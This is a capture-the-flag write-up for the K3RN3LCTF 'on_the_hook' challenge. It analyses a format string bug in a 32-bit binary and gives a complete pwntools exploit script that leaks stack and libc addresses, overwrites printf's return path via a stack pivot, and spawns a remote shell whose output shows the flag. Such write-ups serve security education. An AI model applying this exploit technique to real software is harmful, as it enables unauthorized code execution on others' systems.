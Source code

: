 ## on_the_hook

> Points: 461
>
> Solves: 22

### Description:
Captain Malloc lost his hook find it and than grab a shell for your effort.

nc ctf.k3rn3l4rmy.com 2201

### Attachments:
```
https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/on_the_hook

https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/libc.so.6
```

## Analysis:

This binary is clearly vulnerable to FSB (Format String Bug). The binary uses a While Loop, so we can use the FSB 5 times.
However, because it is Full Relro, GOT overwrite cannot be performed, and the main function ends with exit (0), so the return address of the main function cannot be changed.


```c
$ ./on_the_hook 
echo:
%p,%p,%p
0x40,0xf7fa65a0,0x8049292     <---- FSB
```

```c
$ checksec on_the_hook
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO         <--- Full Relro
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Below is the decompiled result by Ghidra.
```c
void main(void)

{
  int in_GS_OFFSET;
  EVP_PKEY_CTX *in_stack_ffffffa0;
  int local_58;
  char local_54 [64];
  undefined4 local_14;
  undefined *puStack16;
  
  puStack16 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  init(in_stack_ffffffa0);
  puts("echo:");
  local_58 = 1;
  while (local_58 < 6) {
    fgets(local_54,0x40,stdin);
    printf(local_54);
    local_58 = local_58 + 1;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

## Solution:

Since Got overlay is not possible, I considered the following two methods, but I used the former method. See the code in `solve_malloc_hook.py` for the latter.

--Call system('/bin/sh') by Stack pivot by rewriting the return address of printf

--Launch `/bin/sh` by writing One gadget to __malloc_hook

The Exploit code has done the following steps:
(1) Leak the Stack address using FSB to identify the return address
(2) Libc address leak using FSB to identify the address of the system function
(3) Using the ROP gadget of "add esp, 0x100; ret", write the address of the system function to the stack of the address where the return address to the main function is written + 0x104 bytes.
(4) As in (3), write the address of `/bin/sh` to the stack of the address where the return address to the main function is written + 0x10c bytes.
(5) Rewrite the return address that returns from printf to the main function to the address of "add esp, 0x100; ret".

When returning from printf to the main function in the above procedure, system ('/ bin / sh') can be started after "add esp, 0x100; ret".


The address of Stack pivot is obtained below.
```bash
$ ropper -f /lib/i386-linux-gnu/libc-2.23.so --nocolor > rop_l.txt
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ grep ": add esp" rop_l.txt 
...
0x00076a71: add esp, 0x100; ret;
...
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='i386')
#context.log_level = 'debug'

BINARY = './on_the_hook'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "ctf.k3rn3l4rmy.com"
  PORT = 2201
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
  stack_pivot = 0x00076991 # add esp, 0x100; ret;  
else:
  s = process(BINARY)
  libc = elf.libc
  stack_pivot = 0x00076a71 # add esp, 0x100; ret; 
  #s = process(BINARY, env={'LD_PRELOAD': './libc.so.6'})
  #libc = ELF("./libc.so.6")
  #stack_pivot = 0x00076991 # add esp, 0x100; ret;  

index = 7

# Lead stack address
s.sendline("%21$p")
s.recvuntil("echo:\n")
stack_leak  = int(s.recvuntil('\n'), 16)
target_addr = stack_leak - 0x118
print("stack_leak  =", hex(stack_leak))
print("target_addr =", hex(target_addr))

# Leak libc address
s.sendline(p32(elf.got.setvbuf) + b"%7$s")
s.recv(4)
setvbuf     = u32(s.recv(4))
libc_base   = setvbuf - libc.sym.setvbuf
system_addr = libc_base + libc.sym.system
binsh_addr  = libc_base + next(libc.search(b'/bin/sh'))

print("setvbuf     =", hex(setvbuf))
print("libc_base   =", hex(libc_base))

# Write system address in stack
writes = {target_addr + 0x104: system_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Write /bin/sh address in stack
writes = {target_addr + 0x10c: binsh_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Stack pivot(add esp, 0x100; ret;) and Start /bin/sh
writes = {target_addr: libc_base + stack_pivot}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ python3 solve_stack_pivot.py r
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline("%21$p")
solve.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil("echo:\n")
solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  stack_leak  = int(s.recvuntil('\n'), 16)
stack_leak  = 0xff825894
target_addr = 0xff82577c
setvbuf     = 0xf7e24360
libc_base   = 0xf7dc4000
[*] Paused (press any to continue)
[*] Switching to interactive mode
...
$ id
uid=1000 gid=1000 groups=1000
$ ls -l
total 1920
-rw-rw-r-- 1 nobody nogroup      46 Nov 11 02:58 flag.txt
-rwxrwxr-x 1 nobody nogroup  147688 Nov 11 02:58 ld-2.23.so
-rwxrwxr-x 1 nobody nogroup 1786484 Nov 11 02:58 libc.so.6
-rwxrwxr-x 1 nobody nogroup   19672 Nov 11 22:59 run
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}

```

## Reference:


